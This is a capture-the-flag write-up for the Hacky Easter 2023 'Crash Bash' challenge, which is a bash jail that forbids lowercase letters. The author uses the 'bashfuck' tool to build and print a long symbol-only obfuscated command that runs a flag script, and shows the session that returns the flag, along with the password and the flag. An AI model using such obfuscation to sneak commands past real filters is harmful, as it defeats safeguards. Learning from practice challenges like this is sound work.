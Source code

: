 ```yaml
---
layout: writeup

title: Crash Bash
level: 6 # optional, for events that use levels
difficulty: hard
points: 300
categories: [pwn]
tags: [jail, bash]

flag: he2023{gr34t_b4sh_succ3ss!}

---
```


## Challenge

Can you crash the bash?

The password is B4sh_br0TH3rs

Connect using nc ch.hackyeaster.com 2303

Note: The service is restarted every hour at x:00.

Hint: Some characters are forbidden, in the whole string you enter.`

## Solution

We connect and quickly find out we cannot use any lowercase letters in our commands:

```
$ nc ch.hackyeaster.com 2303
Welcome to Crash Bash!
To get the flag, call /printflag.sh with the password!
Enter "q" to quit.
----------------------
crashbash$ a
Invalid input, bash crashed!
crashbash$ b
Invalid input, bash crashed!
crashbash$ 1
/bin/bash: line 1: 1: command not found
crashbash$ 2
/bin/bash: line 1: 2: command not found
crashbash$ _
/bin/bash: line 1: _: command not found
crashbash$ A
/bin/bash: line 1: A: command not found
crashbash$
```

so we have to find a way to call `/printflag.sh B4sh_br0TH3rs` without using any lowercase letters, hmm..

Luckily we find an AMAZING program called [bashfuck](https://github.com/0xddaa/bashfuck) which will do just that for us, convert any command to a version that doesn't use any alphnumeric characters!

So we download it ([copy here](writeupfiles/bashfuck.sh)), and ask it to construct our command for us:

```
$ ./bashfuck.sh /printflag.sh B4sh_br0TH3rs
cmd: `/printflag.sh B4sh_br0TH3rs`
result (1960 byte): ${!#}<<<{$\'\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<${##}))\\${##}$((${##}<<$((${##}<<${##}))))${##}\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${
##}))#${##}$#${##}))$#\',$\'\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}$#${##}))\\${##}$((${##}<<$((${##}<<${##}))))$(($((${##}<<${##}))#${##}${##}))\',
$\'\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$#\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\${##}$(($((${##
}<<${##}))#${##}$#${##}))${##}\\${##}$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<$((${##}<<${##}))))\\${##}$((${##}<<$((${
##}<<${##}))))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}$#${##}))$((${##}<<$((${##}<<${##}))))\\${##}$((${##}<<$((${##}<<${##}))))${##}\\${##}$((${##}<<$((${##}<<${##}))))$((
$((${##}<<${##}))#${##}${##}${##}))\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${#
#}<<${##}))#${##}$#${##}))$#\\$#$((${##}<<$((${##}<<${##}))))$#\\${##}$#$((${##}<<${##}))\\$#$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<$((${##}<<${##}))))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$
(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${##}))#${##}$#${##}))$#\\${##}$(($((${##}<<${##}))#${##}${##}))$(($((${##}<<${##}))#${##}${##}${##}))\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<
${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\$#$(($((${##}<<${##}))#${##}${##}$#))$#\\${##}$((${##}<<${##}))$((${##}<<$((${##}<<${##}))))\\${##}${##}$#\\$#$(($((${##}<<${##}))#$
{##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\'}
```

And now we just connect to the service and enter our command:

```
$  nc ch.hackyeaster.com 2303
Welcome to Crash Bash!
To get the flag, call /printflag.sh with the password!
Enter "q" to quit.
----------------------
crashbash$ ${!#}<<<{$\'\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<${##}))\\${##}$((${##}<<$((${##}<<${##}))))${##}\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${
##}))#${##}$#${##}))$#\',$\'\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}$#${##}))\\${##}$((${##}<<$((${##}<<${##}))))$(($((${##}<<${##}))#${##}${##}))\',
$\'\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$#\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\${##}$(($((${##
}<<${##}))#${##}$#${##}))${##}\\${##}$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<$((${##}<<${##}))))\\${##}$((${##}<<$((${
##}<<${##}))))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}$#${##}))$((${##}<<$((${##}<<${##}))))\\${##}$((${##}<<$((${##}<<${##}))))${##}\\${##}$((${##}<<$((${##}<<${##}))))$((
$((${##}<<${##}))#${##}${##}${##}))\\$#$(($((${##}<<${##}))#${##}$#${##}))$(($((${##}<<${##}))#${##}${##}$#))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${#
#}<<${##}))#${##}$#${##}))$#\\$#$((${##}<<$((${##}<<${##}))))$#\\${##}$#$((${##}<<${##}))\\$#$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<$((${##}<<${##}))))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$
(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${##}))#${##}$#${##}))$#\\${##}$(($((${##}<<${##}))#${##}${##}))$(($((${##}<<${##}))#${##}${##}${##}))\\${##}$((${##}<<$((${##}<<${##}))))$((${##}<<
${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\$#$(($((${##}<<${##}))#${##}${##}$#))$#\\${##}$((${##}<<${##}))$((${##}<<$((${##}<<${##}))))\\${##}${##}$#\\$#$(($((${##}<<${##}))#$
{##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$((${##}<<${##}))\\${##}$(($((${##}<<${##}))#${##}${##}$#))$(($((${##}<<${##}))#${##}${##}))\'}
Congrats, here's your flag:
he2023{gr34t_b4sh_succ3ss!}
crashbash$
```

succes!
